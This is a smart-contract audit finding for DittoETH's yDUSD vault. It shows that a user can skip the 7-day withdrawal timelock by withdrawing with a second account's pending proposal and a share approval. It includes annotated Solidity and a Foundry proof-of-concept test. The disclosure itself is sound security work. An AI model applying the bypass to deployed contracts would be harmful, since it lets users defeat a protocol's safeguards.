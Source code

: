 ## [M] Users can evade the `yDUSD` vault's withdrawal timelock mechanism

### Summary

The `yDUSD` vault's withdrawal timelock mechanism is vulnerable. An exploiter can withdraw the `DUSD` assets in their account by using another account's `proposedWithdraw` request info, breaking the vault's core invariant.

### Description

Assuming Bob is an exploiter, he can evade his account (i.e., `owner`) from the `yDUSD` vault's withdrawal timelock mechanism by using [the `proposeWithdraw` request info of another account (i.e., `msg.sender`)](repos/2024-07-dittoeth/contracts/tokens/yDUSD.sol#L85) (`@1` in the snippet below), which can be requested beforehand.

This way, he can withdraw his `DUSD` assets in the `owner` account from the vault without waiting for the 7-day period, breaking the invariant of the vault's timelock mechanism.

With the `msg.sender`'s `proposeWithdraw`request info, the [7-day timelock period check](repos/2024-07-dittoeth/contracts/tokens/yDUSD.sol#L91) (`@2`) can be passed. After passing the withdrawal timelock check in `@2`, the [`DUSD` assets in the `owner` account](repos/2024-07-dittoeth/contracts/tokens/yDUSD.sol#L107) (`@3`) can be withdrawn without invoking the `yDUSD::proposeWithdraw()`.

```solidity
    function withdraw(uint256 assets, address receiver, address owner) public override returns (uint256) {
        //@audit @1 -- Bob can evade his account (i.e., owner) from the vault's withdrawal timelock mechanism by using
        //             the proposeWithdraw info of another account (i.e., msg.sender), which can be requested beforehand.
        //
        //             This way, he can withdraw his DUSD assets in the 'owner' account from the vault without 
        //             waiting for the 7-day period, breaking the invariant of the vault's timelock mechanism.
@1      WithdrawStruct storage withdrawal = withdrawals[msg.sender];
        uint256 amountProposed = withdrawal.amountProposed;
        uint256 timeProposed = withdrawal.timeProposed;

        if (timeProposed == 0 && amountProposed <= 1) revert Errors.ERC4626ProposeWithdrawFirst();

        //@audit @2 -- With the msg.sender's proposeWithdraw request info, the 7-day timelock period check can be passed.
@2      if (timeProposed + C.WITHDRAW_WAIT_TIME > uint40(block.timestamp)) revert Errors.ERC4626WaitLongerBeforeWithdrawing();

        // @dev After 7 days from proposing, a user has 45 days to withdraw
        // @dev User will need to cancelWithdrawProposal() and proposeWithdraw() again
        if (timeProposed + C.WITHDRAW_WAIT_TIME + C.MAX_WITHDRAW_TIME <= uint40(block.timestamp)) {
            revert Errors.ERC4626MaxWithdrawTimeHasElapsed();
        }

        if (amountProposed > maxWithdraw(owner)) revert Errors.ERC4626WithdrawMoreThanMax();

        checkDiscountWindow();

        uint256 shares = previewWithdraw(amountProposed);

        IAsset _dusd = IAsset(dusd);
        uint256 oldBalance = _dusd.balanceOf(receiver);
        //@audit @3 -- After passing the timelock check in @2, the DUSD assets in Bob's owner account can be withdrawn 
        //             without invoking the proposeWithdraw().
@3      _withdraw(_msgSender(), receiver, owner, amountProposed, shares);
        uint256 newBalance = _dusd.balanceOf(receiver);

        // @dev Slippage is likely irrelevant for this. Merely for preventative purposes
        uint256 slippage = 0.01 ether;
        if (newBalance < slippage.mul(amountProposed) + oldBalance) revert Errors.ERC4626WithdrawSlippageExceeded();

        delete withdrawal.timeProposed;
        //reset withdrawal (1 to keep slot warm)
        withdrawal.amountProposed = 1;

        return shares;
    }
```

*   `@1`: [yDUSD.sol#L85](repos/2024-07-dittoeth/contracts/tokens/yDUSD.sol#L85)
*   `@2`: [yDUSD.sol#L91](repos/2024-07-dittoeth/contracts/tokens/yDUSD.sol#L91)
*   `@3`: [yDUSD.sol#L107](repos/2024-07-dittoeth/contracts/tokens/yDUSD.sol#L107)

To exploit the vulnerability, Bob must approve [the shares transfer of the `owner` account](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L237-L239) (`@3.1` in the snippet below) for the `withdrawer` account (i.e., `msg.sender`).

After `@3.1`, the `ERC4626::_withdraw()` will burn the [shares from the `owner` account](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L247) (`@3.2`), and then the [`DUSD` assets in the `owner` account](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L248) (`@3.3`) will eventually be transferred out.

```solidity
        // FILE: node_modules/@openzeppelin/contracts/token/ERC20/extensions/ERC4626.sol
        function _withdraw(
            address caller,
            address receiver,
            address owner,
            uint256 assets,
            uint256 shares
        ) internal virtual {
            //@audit @3.1 -- To exploit the vulnerability, Bob must approve the shares transfer of the 'owner' account 
            //               for the withdrawer account (i.e., msg.sender).
@3.1        if (caller != owner) {
@3.1            _spendAllowance(owner, caller, shares);
@3.1        }

            // If _asset is ERC777, `transfer` can trigger a reentrancy AFTER the transfer happens through the
            // `tokensReceived` hook. On the other hand, the `tokensToSend` hook, that is triggered before the transfer,
            // calls the vault, which is assumed not malicious.
            //
            // Conclusion: we need to do the transfer after the burn so that any reentrancy would happen after the
            // shares are burned and after the assets are transferred, which is a valid state.

            //@audit @3.2 -- The _withdraw() will burn the shares from the 'owner' account.
@3.2        _burn(owner, shares);

            //@audit @3.3 -- Then, the DUSD assets in the 'owner' account will eventually be transferred out.
@3.3        SafeERC20.safeTransfer(_asset, receiver, assets);

            emit Withdraw(caller, receiver, owner, assets, shares);
        }
```

*   `@3.1`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L237-L239>
*   `@3.2`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L247>
*   `@3.3`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L248>

### Impact

Users can withdraw their `DUSD` assets from the `yDUSD` vault without waiting for the 7-day period, breaking the vault's timelock mechanism's invariant.

### Proof of Concept

This section provides a coded PoC.

Place the `test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant()` in the `.test/YDUSD.t.sol` file and declare the following `import` directive at the top of the test file: `import {IyDUSD} from "interfaces/IyDUSD.sol";`.

To run the test, execute the command: `forge test -vv --mt test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant`.

The PoC shows that an exploiter can withdraw their `DUSD` assets in the `sender` account using another withdrawer account, i.e., the `receiver` account, without waiting for the 7-day period.

```solidity
function test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant() public {
    // Require: import {IyDUSD} from "interfaces/IyDUSD.sol";

    // ----- Setup PoC -----
    // Mint dusd to sender
    vm.prank(_diamond);
    token.mint(sender, DEFAULT_AMOUNT);

    // Match at oracle
    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, extra);
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, extra);

    skip(C.DISCOUNT_WAIT_TIME);
    // ----- Setup PoC -----

    // Receiver deposits DUSD into the vault to get yDUSD
    vm.prank(receiver);
    rebasingToken.deposit(DEFAULT_AMOUNT, receiver);

    // Receiver proposes for withdrawal
    vm.prank(receiver);
    rebasingToken.proposeWithdraw(DEFAULT_AMOUNT);

    // Skip 7 days to avoid the ERC4626WaitLongerBeforeWithdrawing error
    skip(7 days);

    // Sender deposits DUSD into the vault to get yDUSD
    vm.prank(sender);
    rebasingToken.deposit(DEFAULT_AMOUNT, sender);

    // To exploit the vulnerability, perform the following steps:
    //
    // 1. Sender approves shares transfer for Receiver (another Sybil account)
    vm.prank(sender);
    IyDUSD(_yDUSD).approve(receiver, type(uint256).max); // Require: import {IyDUSD} from "interfaces/IyDUSD.sol";

    // 2. Sender withdraws DUSD assets from his account using Receiver's proposed info
    //
    // As a result, Sender neither needs to execute the proposeWithdraw() nor wait for any second to withdraw his assets
    vm.prank(receiver);
    rebasingToken.withdraw(0 /* unused */, sender /* receiver */, sender /* owner */); // Use Receiver's proposed info
}
```



